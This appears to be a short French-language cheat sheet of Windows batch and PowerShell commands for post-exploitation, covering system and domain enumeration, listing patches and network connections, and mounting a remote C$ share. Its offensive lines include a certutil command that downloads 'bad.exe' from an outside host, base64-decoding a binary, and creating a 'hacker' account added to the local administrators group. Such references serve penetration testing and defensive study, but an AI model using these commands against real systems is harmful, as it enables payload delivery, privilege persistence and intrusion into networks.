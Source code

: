 <h2>Batch</h2>
<i>systeminfo</i> → Obtenir des renseignements sur le système</br>
<i>net users /domain [username]</i> → Obtenir des renseignements sur les utilisateurs</br>
<i>tasklist</i> → Lister les processus</br>
<i>netstat -ano</i> → Liste des connexions tcp</br>
<i>dir sysprep /s /b</i> → Trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
<i>wmic qfe list</i> → Lister les patch installés (KB)</br>
<i>certutil.exe -urlcache -split -f "http://site.com/bad.exe" bad.exe</i> → Wget en batch</br>
<i>certutil.exe -decode bad.txt bad.exe</i> → Base64 decode en cmd</br>
<i>net user Domain/hacker hackerhacker /add</i> → Ajoute un utilisateur</br>
<i>net localgroup administrators hacker /add</i> → Ajoute un utilisateur à un groupe</br>
<i>net use k: \\srv.remote.org\c$</i> → Connexion au disque distant c sur la partition k</br>
<i>wmic useraccount where name='user'</i> → Récupère des informations sur un utilisateur (SID)</br>

<h2>Powershell</h2>
get-WmiObject -class Win32_Share
